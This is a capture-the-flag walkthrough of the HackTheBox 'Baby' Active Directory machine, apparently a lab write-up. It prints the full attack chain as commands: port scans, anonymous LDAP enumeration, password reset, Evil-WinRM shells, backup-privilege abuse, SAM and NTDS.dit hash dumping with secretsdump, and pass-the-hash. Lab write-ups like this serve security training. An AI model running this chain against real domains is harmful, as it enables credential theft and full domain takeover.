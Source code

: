 # Baby HacktTheBox Walkthrough

This document provides a structured, professional walkthrough of the exploitation process, 
including enumeration, credential discovery, privilege escalation, and domain compromise. 
All commands are provided in code blocks, and screenshots are preserved for clarity.

---

## 1. Initial Enumeration

We begin with a full port scan followed by targeted service enumeration and vulnerability detection:

```bash
nmap -p- -Pn 10.129.224.8 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.224.8 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.224.8 -v --script vuln -oN nmap_vuln.txt
```

![](images/image2.png)

---

## 2. LDAP Enumeration

Anonymous LDAP queries revealed Active Directory accounts:

```bash
netexec ldap 10.129.224.8 -u '' -p '' --query "(sAMAccountName=*)" ""
```

![](images/image12.png)

We successfully discovered credentials:

- **Username:** `Teresa.Bell`
- **Password:** `BabyStart123!`

![](images/image7.png)

---

## 3. Password Spraying & Account Access

After conducting a password spraying attack, we identified another account with forced password reset status:

![](images/image8.png)

We updated the password using SMB tools:

```bash
smbpasswd -r 10.129.224.8 -U "Caroline.Robinson"
```

![](images/image4.png)

With valid credentials, we obtained a shell via **Evil-WinRM**:

```bash
evil-winrm -i 10.129.224.8 -u "Caroline.Robinson" -p "Pass123!"
```

![](images/image1.png)

---

## 4. Privilege Escalation

Upon privilege inspection, we discovered the `SeBackupPrivilege` assigned to our account:

![](images/image5.png)

This privilege allowed us to exploit backup-related operations to extract sensitive files.

![](images/image6.png)

---

## 5. Secrets Dumping

We dumped the **SAM** and **SYSTEM** hives for offline extraction:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![](images/image11.png)

Initial attempts at **Pass-the-Hash** with the extracted Administrator hash failed:

```bash
evil-winrm -i 10.129.224.8 -u Administrator -H 8d992faed38128ae85e95fa35868bb43
```

❌ **Unsuccessful authentication**

---

## 6. NTDS.dit Attack

Direct extraction of the `ntds.dit` file was blocked as it was in use.  
We leveraged an automated backup privilege abuse script:

[BackupPrivilege-Script](https://github.com/SawyersPresent/BackupPrivilege-Script/)

![](images/image10.png)

We then successfully dumped the full NTDS database:

```bash
impacket-secretsdump LOCAL -ntds NTDS -system SYSTEM
```

![](images/image3.png)

---

## 7. Domain Administrator Access

Using one of the extracted hashes, we performed **Pass-the-Hash** authentication 
and successfully obtained **Administrator-level access**:

![](images/image9.png)

At this stage, full domain compromise was achieved.  
The **root flag** was located on the Administrator’s desktop.

---

## 8. Conclusion

This assessment demonstrates a full attack chain from external enumeration 
to complete **domain compromise** by abusing backup privileges and dumping NTDS hashes.  

**Key takeaways:**

- Unpatched systems exposed via LDAP and SMB are critical entry points.  
- Weak or default credentials (e.g., `BabyStart123!`) accelerate compromise.  
- Backup privileges provide direct paths to Domain Controller secrets.  
- Preventing exploitation requires hardening Active Directory, monitoring privileged rights, and enforcing strong password policies.

---
